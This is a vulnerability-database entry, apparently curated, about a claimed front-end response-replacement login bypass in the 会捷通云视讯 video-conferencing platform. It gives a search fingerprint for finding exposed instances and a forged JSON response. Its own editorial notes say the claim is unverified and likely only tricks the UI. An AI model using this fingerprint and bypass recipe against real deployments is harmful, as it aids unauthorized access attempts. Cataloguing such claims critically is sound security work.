



# 会捷通云视讯 前端响应替换登录绕过声称

## 条目说明

- 对象与具体问题：会捷通云视讯；前端响应替换登录绕过声称
- 版本、配置及部署条件：版本未知，Hsengine1.4.1仅响应服务器标识
- 认证与权限前提：客户端改失败响应
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 修改本地响应为token null/result null只能证明UI进入，不证明服务端认证/授权绕过
- 需随后敏感API在无有效凭据情况下成功的证据；不靠截图宣称后台权限
- Content-Length61与短JSON不符；无登录请求端点、修复与版本
- 与283前半同机制，合并保留两个后端Server标识作为实例差异

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

会捷通云视讯存在登陆绕过漏洞，通过拦截特定的请求包并修改即可获取后台权限

### 漏洞影响

```
会捷通云视讯
```

### 网络测绘

```
body="/him/api/rest/v1.0/node/role"
```

### 漏洞复现

登陆页面如下





输入任意账号密码抓包




修改返回包为如下后放包则成功绕过登录


```plain
HTTP/1.1 200 
Server: Hsengine/1.4.1
Date: Mon, 17 May 2021 16:13:43 GMT
Content-Type: application/json;charset=UTF-8
Connection: close
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Accept-Ranges: bytes
Vary: Accept-Charset, Accept-Encoding, Accept-Language, Accept
Content-Length: 61

{"token":null,"result":null}
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
